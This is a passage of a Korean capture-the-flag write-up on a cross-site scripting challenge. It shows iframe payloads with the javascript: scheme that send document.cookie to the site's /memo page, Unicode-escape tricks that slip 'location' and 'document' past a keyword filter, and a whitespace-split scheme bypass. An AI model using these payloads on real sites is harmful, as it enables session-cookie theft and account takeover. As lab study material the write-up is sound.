 
```html
<iframe src="javascript:alert('1')">
```

`src`에 URL이 아닌 `javascript:` 스킴을 주면 URL로 인식하지 않고 자바스크립트 코드로 인식하여 실행하게 된다  

본 블로그의 좌측 하단 이메일 아이콘에 커서를 올려두면 URL이 아니라 `javascript:`로 시작하는 경로가 나올 것이다  
`<a href="javascript:">`  
클릭해보면 페이지로 이동하지 않고 지정된 스크립트를 실행하는데 이와 같은 원리이다  
<br>

---

```html
<iframe src="javascript:location.href='/memo?memo='+parent.document.cookie">
```

이런 페이로드를 보내면 될 것 같다  
하지만 필터링까지 우회해야 한다  
<br>

> **`parent`**
> 
> `iframe`은 문서 내에 문서를 하나 더 삽입하는 것인데 자식 문서가 부모 문서의 쿠키를 가져오도록 `parent`를 사용한다  
> 하지만 본 문제에서는 크로미움 셀레니움이 사용되는데 자식 문서가 부모 문서를 상속하여 쿠키 참조가 가능하기 때문에 `parent` 없이 `document.cookie`만 사용해도 된다  
{: .prompt-info}
<br>

---

```javascript
locati\u006fn.href='memo?memo='+d\u006fcument.cookie
```

자바스크립트에서는 이스케이프 시퀀스로 특수문자나 입력 불가능한 문자를 표현하기도 한다  
16진수로 표시된 유니코드 문자 `\u006f`는 문자 `o`로 해석되서 `locati\u006f`는 실행될 때 `location`으로 인식된다  


어찌됐든 인자로는 `locati\u006fn`으로 들어가고 실행될 때는 `location`과 같은 동작을 한다  
때문에 자바스크립트의 유니코드 이스케이프 시퀀스를 통해서 필터링을 우회할 수 있다  
<br>

---

```html
<iframe src="javascript:locati\u006fn.href='/memo?memo='+parent.d\u006fcument.cookie">
```

대신 여전히 `javascript:`가 필터링에 걸린다  
`javascript:`는 자바스크립트 코드가 아닌 자바스크립트 스킴이기 때문에 유니코드 문자를 사용한 우회가 불가능하다  
<br>

---

```html
<iframe src="java   script:location.href='/memo?memo='+parent.document.cookie">
```
